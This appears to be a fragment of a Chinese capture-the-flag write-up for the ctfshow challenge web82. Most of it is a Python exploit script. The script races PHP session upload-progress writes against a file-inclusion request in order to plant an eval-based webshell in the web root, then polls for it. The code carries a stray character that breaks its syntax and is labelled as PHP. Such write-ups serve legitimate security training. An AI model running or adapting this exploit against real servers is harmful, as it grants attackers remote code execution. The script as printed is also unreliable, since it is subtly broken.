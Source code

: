 同上web80



#### web82

条件竞争

poc

```php
import requests
import io
import threading

url='http://9a77fcb3-6f3c-4bd6-a247-07bfe6766509.challenge.ctf.show:8080/'
sessionid='ctfshow'
data={
	"1":"file_put_contents('/var/www/html/jiuzhen.php','<?php eval($_POST[3]);?>');"
}
#这个是访问/tmp/sess_ctfshow时，post传递的内容，是在网站目录下写入一句话木马。这样一旦访问成功，就可以蚁剑连接了。
def write(session):#/tmp/sess_ctfshow中写入一句话木马。
	fileBytes = io.BytesIO(b'a'*1024*50)
	while True:
		response=session.post(url,
			data={
			'PHP_SESSION_UPLOAD_PROGRESS':'<?php eval($_POST[1]);?>'
			},
			cookies={
			'PHPSESSID':sessionid
			},
			files={
			'file':('ctfshow.jpg',fileBytes)
			}
			)

def read(session):#访问/tmp/sess_ctfshow，post传递信息，在网站目录下写入木马。
	while True:
		response=session.post(url+'?file=/tmp/sess_'+sessionid,data=data,
			cookies={
			'PHPSESSID':sessionid
			}
			)
		resposne2=session.get(url+'jiuzhen.php');#访问木马文件，如果访问到了就代表竞争成功
		if resposne2.status_code==200:了
			print('++++++done++++++')
		else:
			print(resposne2.status_code)

if __name__ == '__main__':

	evnet=threading.Event()
	#写入和访问分别设置5个线程。
	with requests.session() as session:
		for i in range(5):
			threading.Thread(target=write,args=(session,)).start()
		for i in range(5):
			threading.Thread(target=read,args=(session,)).start()

	evnet.set()
```
